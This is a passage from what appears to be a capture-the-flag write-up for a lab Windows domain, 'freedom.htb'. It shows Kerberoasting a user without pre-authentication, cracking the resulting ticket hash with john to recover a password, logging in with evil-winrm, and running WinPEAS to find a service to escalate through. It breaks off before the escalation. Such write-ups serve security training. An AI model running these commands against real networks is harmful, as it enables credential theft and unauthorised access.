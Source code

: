 The user has indeed disable Kerberos pre-authentication. Unfortunately, the ticket is uncrackable so we can't retrieve the clear text password for this user. But, we can use this ticket to request tickets for users that may have SPNs set.

```bash
impacket-GetUserSPNs -no-preauth e.tylar -usersfile usernames freedom.htb/

<SNIP>
$krb5tgs$23$*j.bret$FREEDOM.HTB$j.bret*$064561e621ae2441636c20920a6190cf$4f5a5cee9e56eaf50c20728241f83432339e3b5bc58e8366a44fde54a2a8a1e030962d7bec426addbdeb94a312c00bb669b3e51caec1e65daedc5fffbf0cd57a9da4e3ef25f60aa6395d3f57c9198596c7c6812b77b3bb1f1f2c4fbcf2add93ed212d57f962f74170c3acd6ed111e8d9f0b2e9a50bff7f86cfc072f122a2da29e85d985b9e9804a2015d8ed54fe99ea<SNIP>8c21c94cf598aa76e4066c027a89f5f562b3ebd6b1b708299444be8b2d71557a4dc547a9ed70946764ffab3ca1de00b14d1d4f40ee94c42a1086265b87928c20fbcd9001040ad6595db5addf8e6a192cf58d9771eae1ec5ab35f96869c8618f0d63899aa96b2e933abf523d6678ab3cdb5f4abcbc595ba6a1f0708492746aa6e08143aa7d42a0e6ab
```

Finally, this ticket can be cracked. 

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash

swordsoffreedom  (?)
```

Let's use `evil-winrm` and grab the user flag.

```bash
evil-winrm -i freedom.htb -u j.bret -p swordsoffreedom
```

# Privilege Escalation

Let's use [WinPEAS](https://github.com/peass-ng/PEASS-ng/releases/) to enumerate the environment that we are in.

```bash
*Evil-WinRM* PS C:\Users\j.bret\Documents> upload winPEASx64.exe
*Evil-WinRM* PS C:\Users\j.bret\Documents> .\winPEASx64.exe

<SNIP>
Interesting Services -non Microsoft-

HealthCheck(HealthCheck)[C:\Users\Administrator\Documents\health.exe] - Autoload
<SNIP>
```

We can focus on the fact that there is a non-default service in place called `HealthCheck`. If we look at the `Desktop` of our current user we can see a binary called `HealthCheck.exe`. 

```bash
*Evil-WinRM* PS C:\Users\j.bret\Desktop> ls


    Directory: C:\Users\j.bret\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       11/25/2024   7:03 AM          17920 HealthCheck.exe
-a----        12/2/2024   3:24 AM             27 user.txt
```
